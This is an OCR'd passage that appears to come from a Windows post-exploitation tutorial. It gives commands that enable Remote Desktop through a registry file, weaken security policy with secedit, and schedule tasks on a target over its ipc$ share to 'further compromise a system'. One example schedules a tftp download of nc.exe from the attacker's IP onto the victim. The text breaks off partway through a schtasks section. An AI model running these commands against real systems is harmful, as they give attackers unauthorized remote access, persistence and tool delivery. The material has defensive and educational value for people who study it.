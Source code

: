      [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]

     "fDenyTSConnections"=dword:00000000

     "TSEnabled"=dword:00000001

     "TSUserEnabled"=dword:00000000

    </pre>



 1. On the remote system, execute the following commands:


```
c:\> sc config termservice start= auto sc config termservice start= auto

c:\> regedit /s enable_ts.reg

c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\new.secedit.sdb

c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\orig.secedit.sdb

c:\> secedit /configure /db new.secedit.sdb /cfg fix_ts_policy.ini

c:\> gpupdate /Force

c:\> net start "terminal services"
```





### Scheduler

The [Windows scheduler](http://support.microsoft.com/kb/313565) can be used to further compromise a system. It usually runs at the SYSTEM account privilege level. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 58)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely schedule tasks using the commands below.



<pre>

c:\> net use \\[TargetIP]\ipc$ password /user:username

c:\> at \\[TargetIP] 12:00 pm command

</pre>



An example you might run on the remote system might be: `at \\192.168.1.1 12:00pm tftp -I [MyIP] GET nc.exe`


### Scheduling tasks to run under special conditions

One can schedule tasks to run under certain conditions such as when a user logs into the computer or when the computer is idle
with the schtasks command. This can be done by any user and includes the following additional conditions which can come in handy:

